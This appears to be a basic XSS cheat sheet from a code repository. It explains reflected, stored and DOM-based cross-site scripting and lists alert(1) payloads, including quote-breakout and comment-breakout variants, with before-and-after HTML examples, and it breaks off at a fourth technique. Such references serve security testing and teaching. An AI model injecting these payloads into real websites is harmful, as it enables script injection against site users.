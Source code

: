 # XSS Cheat Sheet (Basic)

## **Introduction**
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into websites. There is 3 types of XSS Attack:
- Reflected XSS

    Attack where the malicious script runs from another website through the web browser    
- Stored XSS
  
    Stored attacks are those where the injected script is permanently stored on the target servers
- DOM-Based XSS

    A type of XSS that has payloads found in the DOM rather than within the HTML code.

## **Payloads**
1. Basic payload
```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag
```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. Add --> to escape the payload if input lands in HTML comments.
```html
--><script>alert(1)</script>
```

* Example source code
```html
<!-- REFLECTED_HERE --> 
```

* After input the payload
```html
<!-- --><script>alert(1)</script> -->
```

4. Add </tag> when the input inside or between opening/closing tags, tag can be ```<a>,<title>,<script>``` and any other HTML tags
    
